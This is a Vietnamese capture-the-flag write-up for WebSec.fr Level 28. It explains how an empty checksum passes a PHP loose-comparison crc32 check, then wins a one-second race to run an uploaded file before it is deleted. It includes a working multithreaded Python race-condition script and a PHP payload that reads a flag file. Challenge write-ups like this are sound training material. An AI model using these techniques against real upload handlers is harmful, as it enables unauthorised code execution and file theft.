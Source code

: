 ```yaml
---
title: WebSec.fr Level 28 CTF challenge

---
```


# WebSec.fr Level 28 CTF challenge

### Tổng quan:

![image](https://hackmd.io/_uploads/Syc1KLLjxl.png)

```php
<?php
if(isset($_POST['submit'])) {
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

    file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
?>

```

Đoạn mã này là một trang web đơn giản cho phép người dùng tải lên một tệp và nhập một giá trị checksum. Mục tiêu là tải lên một tệp tin sao cho hai điều kiện sau được thỏa mãn:

- `md5_file($filename) === md5_file('flag.php')`

- `POST['checksum'] == crc32($_POST['checksum'])`

Nếu cả hai điều kiện này đều đúng, tệp tin được tải lên sẽ được include, và vì tệp tin đó có thể chứa mã độc, chúng ta có thể thực thi nó để lấy flag.

### Tiến hành khai thác

Ở đây ta sẽ thử sử dụng chức năng với 1 file php với nội dung:

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

Để xem thử nó có ra flag hay không.

![image](https://hackmd.io/_uploads/Hy2l9LLjeg.png)

Kết quả trả về cho ta chỉ nhận được dòng `Nope, ./tmp/06e2d538fba99ca2b2456260bc9e08f5.php is not the right file, sorry.`
Ở đoạn `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` liệu ta có thể khai thác gì thêm từ thông tin này không?

Trong code có đoạn:

```php
$filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';
```

Ở đây giá trị `$filename` sau khi upload lên sẽ được đưa vào thư mục tạm là `/tmp` sau đó là đi với public ip của máy mình và rồi là đuôi file php, vậy nên có thể nhận thấy đây là file cố định với ip của mình và cho dù mình upload bất kì file nào lên thì nó sẽ đều đi vào `/tmp/06e2d538fba99ca2b2456260bc9e08f5.php` trước.

Ngoài ra trong source còn có đoạn:

```php
else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
```

Có nghĩa là khi đẩy lên tmp nếu file sau khi check không trùng với md5 và crc32 checksum thì nó sẽ có 1 khoảng thời gian là 1 giây trước khi nó xoá đi file đó và với 1s thì đó là khoảng thời gian khá dài.

Bây giờ có 2 hướng đi đó là bypass được md5 và crc32 check và hướng race condition lợi dụng 1 giây đó. Với hướng đi đầu thì có vẻ bất khả thi vì ta sẽ khó để có thể biết được md5 của flag được giấu là gì cùng với đó là rất khó để tìm được số x sao cho `x == crc32(str(x))` vì : 

```text
- crc32 trả ra giá trị 32-bit (từ 0 đến 2³²−1 ≈ 4.29 tỉ).

- Nếu coi hàm f(x) = crc32(str(x)) như một ánh xạ trên không gian 2³² phần tử, thì xác suất bất kỳ x cụ thể thỏa f(x)=x vào khoảng 1/2³².

- Nghĩa là trung bình bạn cần thử ~2³² lần (khoảng 4.29 tỉ) mới mong tìm được một nghiệm — không khả thi bằng dò ngẫu nhiên trên 1 máy.
```

Vậy nên ta sẽ dùng trick là so sánh crc32 với chuỗi rỗng:

```text
- crc32('') trả về integer 0.

- '' (chuỗi rỗng) khi ép kiểu sang số cũng trở thành 0.

- PHP dùng so sánh lỏng == sẽ ép kiểu nếu cần, vậy '' == crc32('') tức là '' == 0 → true.

- Nhưng '' === crc32('') (so sánh kiểu chặt ===) sẽ false vì kiểu khác (string vs int).

- Vì vậy gửi checksum là chuỗi rỗng (checksum=) sẽ thỏa điều kiện $_POST['checksum'] == crc32($_POST['checksum'])
```

Vậy nên bây giờ ta chỉ có cách là lợi dụng trong khoảng thời gian 1 giây đó thực hiện request `POST` file php lên và thực hiện `GET` luôn giá trị của flag trong đó.

Bây giờ sử dụng script để khai thác:

```python
# followup_attack.py
import threading, requests, time, random

POST_URL = 'https://websec.fr/level28/index.php'
# replace md5ip with your IP-hash (or compute from your remote IP)
TMP_URL = 'https://websec.fr/level28/tmp/06e2d538fba99ca2b2456260bc9e08f5.php'
FILE_PATH = 'show_flag.php'

NUM_UPLOADERS = 6    # start small (increase slowly if server tolerates)
NUM_READERS = 3
SLEEP_UPLOAD = 0.06  # tune small, don't saturate
SLEEP_READ = 0.02

USER_AGENTS = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
    "curl/7.79.1",
    "python-requests/2.x"
]

def uploader(i):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    data = {'checksum': '', 'submit': 'Upload and check'}  # empty checksum bypass
    while True:
        try:
            # open fresh every request
            with open(FILE_PATH, 'rb') as fh:
                files = {'flag_file': (FILE_PATH, fh, 'application/octet-stream')}
                r = s.post(POST_URL, files=files, data=data, timeout=8)
            # optionally log low-volume feedback
            if r.status_code != 200:
                print(f"[U{i}] status {r.status_code}")
        except Exception as e:
            print(f"[U{i}] upload err: {e}")
        time.sleep(SLEEP_UPLOAD + random.random()*0.02)

def reader(i, stop_event):
    s = requests.Session()
    s.headers.update({'User-Agent': random.choice(USER_AGENTS)})
    while not stop_event.is_set():
        try:
            r = s.get(TMP_URL, timeout=6)
            if r.status_code == 200:
                txt = r.text
                # quick check for flag pattern
                if 'FLAG{' in txt or 'WEBSEC{' in txt:
                    print(f"[R{i}] !!! FLAG FOUND !!!\n{txt}")
                    stop_event.set()
                    return
                # debug: when file is not PHP anymore (indicates something changed)
                if "<?php" not in txt:
                    print(f"[R{i}] changed content (snippet): {repr(txt[:200])}")
            else:
                # minor backoff on non-200 to avoid making things worse
                time.sleep(0.05)
        except Exception as e:
            print(f"[R{i}] read err: {e}")
        time.sleep(SLEEP_READ + random.random()*0.005)

if __name__ == "__main__":
    stop_event = threading.Event()
    threads = []
    for i in range(NUM_UPLOADERS):
        t = threading.Thread(target=uploader, args=(i,), daemon=True)
        t.start()
        threads.append(t)
    for i in range(NUM_READERS):
        t = threading.Thread(target=reader, args=(i, stop_event), daemon=True)
        t.start()
        threads.append(t)

    try:
        while not stop_event.is_set():
            time.sleep(0.5)
    except KeyboardInterrupt:
        print("Stopped by user")

```

File php với mục đích hiển thị nội dung file flag được giấu ở bên trong hệ thống.

```php
// show_flag.php
<?php
// Read the contents of the "flag.php" file
$flag_content = file_get_contents("/flag.php");

// Display the contents of the file
echo $flag_content;

?>
```

![image](https://hackmd.io/_uploads/B1AYWPLsee.png)

Thành công lấy được nội dung flag ở bên trong bằng cách POST và GET nhanh trong vòng 1 giây.